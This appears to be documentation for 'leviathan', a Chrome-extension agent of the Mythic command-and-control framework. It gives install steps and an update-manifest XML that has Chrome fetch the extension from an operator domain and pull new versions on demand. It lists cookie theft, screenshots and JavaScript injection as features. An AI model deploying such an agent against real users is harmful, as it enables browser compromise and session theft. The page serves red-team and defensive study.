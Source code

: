 +++
title = "leviathan"
chapter = false
weight = 5
+++
![logo](/agents/leviathan/leviathan.svg?width=200px)
## Summary
The leviathan agent is a Chrome browser extension that leverages the websockets protocol for C2. To use this payload:
1. Create the payload the UI. This will create a .zip file for you to download and extract.
2. In Google Chrome, click the hamburger icon on the right -> More Tools -> Extensions
3. Click the top right toggle for developer mode
4. Drag the extension.crx file onto the extensions page in Chrome to get a popup about adding the extension
5. Click "Add extension"
6. The extension will now be listed with an `ID: string here` such as (`ID: cmpdmiiigdgpigikmenkkobfkcbnpgij`)
{{% notice info %}}
For local testing, you can select to "Load unpacked" and point to the `extension` folder. It'll load and run your extension locally.
{{% /notice %}}
At this point, you need to deploy it in operations. This is very OS and operation specific. In general, you're looking at steps 13 and 14 from @xorrior's original [blog](https://posts.specterops.io/no-place-like-chrome-122e500e421f).

When building the payload in Mythic, you specify the path of where the manifest is going to live, like `https://mydomain.com/manifest.xml`. Chrome is going to reach out to this url to get some information and the actual extension. The xml file looks like this (you will need to generate this):

```
<?xml version='1.0' encoding='UTF-8'?>
<gupdate xmlns='http://www.google.com/update2/response' protocol='2.0'>
 <app appid='jadlkkknjobkmjcnddmbdmjhndcochdg'>
 <updatecheck codebase='http://mydomain.com/extension.crx' version='1.0' />
 </app>
</gupdate>
```

Make sure that the version specified here matches the version you specified when generating your payload. You can use this to your advantage to "announce" a new version that Chrome should pull down and run.

### Highlighted Agent Features

- Capture screenshots
- Steal cookies
- View open tabs
- Inject javascript into tabs
- Dynamically load new commands

## Authors

@xorrior

### Special Thanks to These Contributors

@sixdub for the idea and PoC code
